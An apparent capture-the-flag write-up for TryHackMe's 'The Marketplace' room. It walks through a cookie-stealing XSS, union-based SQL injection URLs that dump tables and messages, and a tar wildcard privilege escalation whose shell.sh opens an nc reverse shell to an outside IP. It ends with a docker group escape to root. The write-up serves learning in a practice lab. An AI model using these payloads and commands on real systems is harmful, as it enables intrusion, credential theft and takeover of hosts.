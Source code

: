 # The Marketplace

This is a write-up for the room on TryHackMe: [https://tryhackme.com/room/marketplace](https://tryhackme.com/room/marketplace)

Nmap scan: 

```text
nmap -T4 -A 10.10.32.69 -oN nmapscan
```

Output of nmap scan:

```c
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-02 17:22 EDT
Nmap scan report for 10.10.32.69
Host is up (0.20s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
|_  256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (ED25519)
80/tcp    open  http    nginx 1.19.2
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-server-header: nginx/1.19.2
|_http-title: The Marketplace
32768/tcp open  http    Node.js (Express middleware)
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: The Marketplace
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.68 seconds
```

I started off by visiting the main page on port 80:

![](../../.gitbook/assets/image%20%28313%29.png)

There is a robots.txt, which was indicated in the nmap scan:

![](../../.gitbook/assets/image%20%28302%29.png)

This leads to the following:

![](../../.gitbook/assets/image%20%28315%29.png)

The same page is visible for the webserver on port 32768:

![](../../.gitbook/assets/image%20%28318%29.png)

I signed up and made a new listing on the site. I then added **&lt;script&gt;alert\(document.cookie\)&lt;/script&gt;**, in the title to see if I can get some information:

![](../../.gitbook/assets/image%20%28310%29.png)

I seem to get a token. I found out that this is JWT or JSON Web Token. When I decoded it, this was my result:

![](../../.gitbook/assets/image%20%28307%29.png)

I believe my next step is to change the payload data to have me be the admin, so I am allowed to view the page. I tried to modify the payload as admin, but I ended up failing. I found [this write-up](https://www.security-hive.com/post/tryhackme-the-marketplace-walkthrough), that led me to a website: [https://github.com/s0wr0b1ndef/WebHacking101/blob/master/xss-reflected-steal-cookie.md](https://github.com/s0wr0b1ndef/WebHacking101/blob/master/xss-reflected-steal-cookie.md). Using the github link, I first **ran the python script** mentioned in the github page, and then I tried the first option:

![](../../.gitbook/assets/image%20%28301%29.png)

I then got this response from the website:

![](../../.gitbook/assets/image%20%28293%29.png)

I then tried it again, this time removing the alert box code:

![](../../.gitbook/assets/image%20%28316%29.png)

I then submitted the listing. Based on the hint from TryHackMe, I then reported this listing to the admins. 

![](../../.gitbook/assets/image%20%28306%29.png)

At this point, I realized that I was making a mistake, and that I was entering the IP of the server itself, and not my own IP from TryHackMe. I then corrected my javascript:

![](../../.gitbook/assets/image%20%28296%29.png)

When I reported it this time to the admin, I got the cookie using the python script from the GitHub page:

![](../../.gitbook/assets/image%20%28300%29.png)

I entered this in [jwt.io](https://jwt.io/#debugger-io), and got the following result:

![](../../.gitbook/assets/image%20%28299%29.png)

We can see the username of the admin is michael. I then logged out of the account. I then logged in using credentials I had made previously, **test:test**, and when the following prompt came up in burpsuite \(I used the burpsuite browser for this part\), I modified it to use the cookie of the admin: 

![](../../.gitbook/assets/image%20%28320%29.png)

I was then in:

![](../../.gitbook/assets/image%20%28311%29.png)

In order to access **/admin**, you have to manually force the admin cookie in bupsuite. After I did that, I got to the following site:

![](../../.gitbook/assets/image%20%28319%29.png)

I did the same for the **Administration Panel**, and got the first flag:

![](../../.gitbook/assets/image%20%28314%29.png)

I see that jake is also an administrator. After a while, viewing [this write-up](https://www.security-hive.com/post/tryhackme-the-marketplace-walkthrough), made me realize that I should focus more on the SQL Injection than the user jake. Using the same write-up I ended up finding about the following web query:

```c
http://10.10.8.149/admin?user=-2+union+select+1,(SELECT+group_concat(table_name)+from+information_schema.tables+where+table_schema=database()),3,4
```

This led to the output that tolds what table names there are:

![](../../.gitbook/assets/image%20%28317%29.png)

Running the following web query led to the column names:

```c
http://10.10.8.149/admin?user=-2+union+select+1,(SELECT+group_concat(column_name)+from+information_schema.columns+where+table_schema=database()),3,4
```

![](../../.gitbook/assets/image%20%28322%29.png)

From the write-up, the author then went on to make this query:

```c
http://10.10.8.149/admin?user=-2+union+select+1,(SELECT+message_content+FROM+messages+WHERE+ID=1),3,4
```

This led to the following output:

![](../../.gitbook/assets/image%20%28309%29.png)

This seems to be the SSH password for a user. The credentials worked for jake:

![](../../.gitbook/assets/image%20%28298%29.png)

The user.txt file was in the directory you enter in:

![](../../.gitbook/assets/image%20%28304%29.png)

I then ran **sudo -l** to find out what actions we have as a sudoer:

![](../../.gitbook/assets/image%20%28321%29.png)

I found out we have a file we have access to read. We do not have access to edit the file. I found [this website](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/), based on a couple of the write-ups I had read online, that talked about exploiting wildcards for privilege escalation. I followed the commands from the website:

I first ran `cat /etc/cron` and got the following output:

![](../../.gitbook/assets/image%20%28295%29.png)

There does not seem to be anything of importance here, so I moved on to the next step, which was creating a msfvenom payload:

![](../../.gitbook/assets/image%20%28294%29.png)

We then copy the **mkfifo** output \(previous image\) into the jake user's shell \(in the **/opt/backups** directory\). I then ran the following commands, going off of [this write-up](https://yebberdog.medium.com/tryhackme-the-marketplace-writeup-3397db0c6dfb):

```c
echo "mkfifo /tmp/rtez; nc 10.2.54.229 4444 0</tmp/rtez | /bin/sh >/tmp/rtez 2>&1; rm /tmp/rtez" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
sudo -u michael ./backup.sh
```

{% hint style="warning" %}
I ran into an issue here where I was not able to backup the files. I kept getting an error, in order to fix it, I moved **backup.tar** to **bkup.tar**. I then ran the **sudo** command once again and got the reverse shell. Source: [https://www.infosecarticles.com/tryhackme-the-marketplace-walkthrough/](https://www.infosecarticles.com/tryhackme-the-marketplace-walkthrough/)
{% endhint %}

After I ran the aforementioned commands, I had a reverse shell:

![](../../.gitbook/assets/image%20%28312%29.png)

I then spawned a python shell here running the following command, from [this website](https://netsec.ws/?p=337):

```python
python -c 'import pty; pty.spawn("/bin/sh")'
```

After I got the shell, I tried to run **sudo -l**, but that did not work out for me. I had to get the shell again and start over. I read [a write-up](https://www.infosecarticles.com/tryhackme-the-marketplace-walkthrough/) and found out we are part of the docker group. I also found out that I made a mistake copying a command from GTFOBins \(for the **docker** command\):

![](../../.gitbook/assets/image%20%28297%29.png)

I was not supposed to use sudo for this. I was then able to get the flag:

![](../../.gitbook/assets/image%20%28305%29.png)



